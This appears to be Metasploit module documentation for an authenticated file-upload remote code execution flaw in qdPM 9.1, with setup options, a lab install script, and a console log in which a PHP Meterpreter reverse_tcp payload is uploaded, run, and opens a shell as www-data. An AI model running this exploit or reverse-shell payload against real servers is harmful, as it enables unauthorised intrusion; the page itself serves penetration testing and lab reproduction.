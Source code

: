 ## Vulnerable Application

This module exploits a arbitrary file upload vulnerability in the qdPM web-based project manager software, in its 9.1 version. When updating a user's profile (POST `myAccount/update`), the user is allowed to upload a profile picture, which is stored in a known location under the web server root. The software fails to verify the picture input, allowing for the upload of any file, with any filename extension. This can be exploited by uploading a PHP script and invoking it by making a request to it. 
The script will run with the same privileges as the web server.
The module has been tested against qdPM version 9.1

## Verification Steps

- [ ] Start `msfconsole`
- [ ] `use exploit/multi/http/qdpm_authenticated_rce`
- [ ] `set EMAIL <email>`
- [ ] `set PASSWORD <password>`
- [ ] `set TARGETURI <target_uri>`
- [ ] `set RHOST <rhost>`
- [ ] `set RPORT <rport>`
- [ ] `exploit`
- [ ] Add SSL, Proxy, and VHOST options if needed.
- [ ] Verify that a new session is created.

## Options

### EMAIL  
  [Required]  
  The email of the user you want to exploit the software with. The user must NOT be the original Admin (i.e. the account created upon installing qdPM, `admin@your_domain.com`). The original Admin user does not have the same attributes as the other user created later on, and its profile picture cannot be changed. In fact, it has no profile picure nor a `/myAccount` page altogether. If you only have credentials for the original admin, you can always login and create another regular user to run this exploit. Note that users with Admin role are also exploitable, only the one created upon installation is not.

### PASSWORD  
  [Required]  
  The password of the user you are trying to exploit.

### TARGETURI  
  The path qdPM lives at. This is only needed is qdPM is not served from the webserver root folder.

## Scenarios

As it can be shown by the following scenarios, the exploit works reliably against a variety of targets. The exploit, however, might fail when a large payload (i.e. stageless meterpreter) is selected.
  
   
  **Attacking with a generic PHP payload, OS independent**

```
[msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> set target Generic\ (PHP\ Payload)
target => Generic (PHP Payload)
[msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/http/qdpm_authenticated_rce) >> exploit

[*] Started reverse TCP handler on 192.168.2.177:4444
[*] Attempt to login with 'johndoe@localhost.com:easyone'
[*] Uploading PHP payload (1123 bytes)...
[*] Executing 'JGvak.php'
[*] Sending stage (39927 bytes) to 192.168.2.177
[!] Removing: 993379-JGvak.php
[*] Meterpreter session 2 opened (192.168.2.177:4444 -> 192.168.2.177:43816) at 2022-06-14 10:03:46 +0200

(Meterpreter 1)(/home/giacomo/qdPM/uploads/users) > getuid
Server username: www-data
```

## Installation

QDPM 9.1 relies on outdated software, and installing it can be quite nuanced. Please run the provided script to get the application set up together with a web server, the right version of PHP, and MySQL. This is tested on a fresh installation of Ubuntu Server 22.04.

```
apt install software-properties-common -y
add-apt-repository ppa:ondrej/php
apt update
apt install -y nginx php7.3-fpm php7.3-mysql php7.3-xml php7.3-gd mariadb-server unzip wget
systemctl enable --now mariadb.service php7.3-fpm.service
mysql -e "UPDATE mysql.user SET Password = PASSWORD('password') WHERE User = 'root'"
mysql -e "DROP USER ''@'$(hostname)'"
mysql -e "DROP DATABASE test"
mysql -e "FLUSH PRIVILEGES"
mysql -e "CREATE DATABASE qdpm_db default charset utf8"
mysql -e "CREATE USER 'user'@'localhost' IDENTIFIED BY 'pass'"
mysql -e "GRANT ALL PRIVILEGES ON qdpm_db.* TO 'user'@'localhost';"
cd /opt
wget https://www.exploit-db.com/apps/f922670e98bcbcff923d9bfaf430e669-qdPM_9.1.zip -O qdPM_9.1.zip
unzip -d /var/www/html/qdpm qdPM_9.1.zip
rm qdPM_9.1.zip
chown -R www-data:www-data /var/www/html/qdpm/
rm /etc/nginx/sites-available/default
rm /etc/nginx/sites-enabled/default
tee -a /etc/nginx/sites-available/default > /dev/null <<EOT
server {
    listen 80 default_server;
    listen [::]:80 default_server;
    root /var/www/html/qdpm/;
    index index.php;

    location / {
        try_files \$uri /index.php\$is_args\$args;
    }

    location ~* \.php$ {
        fastcgi_pass unix:/var/run/php/php7.3-fpm.sock;
        include fastcgi_params;
        fastcgi_param SCRIPT_FILENAME \$realpath_root\$fastcgi_script_name;
        fastcgi_param DOCUMENT_ROOT \$realpath_root;
    }

    error_log /var/log/nginx/qdpm_error.log;
    access_log /var/log/nginx/qdpm_access.log;
}
EOT
ln -s /etc/nginx/sites-available/default /etc/nginx/sites-enabled/
systemctl start nginx.service
systemctl reload nginx.service
```

If the script runs successfully, you should have a webserver serving the application on port 80.  
Visit the website to complete the installation via the web installer. It will ask you to fill in the database name, user, and password. Those will be `qdpm_db`, `user`, and `pass` respectively. Then, create a password for your `admin@localhost.com` account and login with it. You can now create a second user to run the exploit against.
